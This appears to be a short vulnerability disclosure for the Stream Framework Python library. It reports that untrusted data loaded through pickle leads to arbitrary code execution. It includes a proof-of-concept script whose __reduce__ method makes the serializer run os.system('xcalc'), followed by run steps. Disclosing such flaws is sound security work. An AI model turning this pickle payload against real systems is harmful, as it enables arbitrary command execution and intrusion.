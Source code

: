 # Description
Stream Framework is a Python library, which allows you to build news feed, activity streams and notification systems using Cassandra and/or Redis. The authors of Stream-Framework also provide a cloud service for feed technology
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install stream-framework')
from stream_framework.serializers import pickle_serializer
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#exploiting
dumps = pickle.dumps(ArbitraryCode())
pickle_serializer.PickleSerializer.loads(dumps,dumps)
```
* `pip3 install stream-framework`
* `python3 exploit.py`
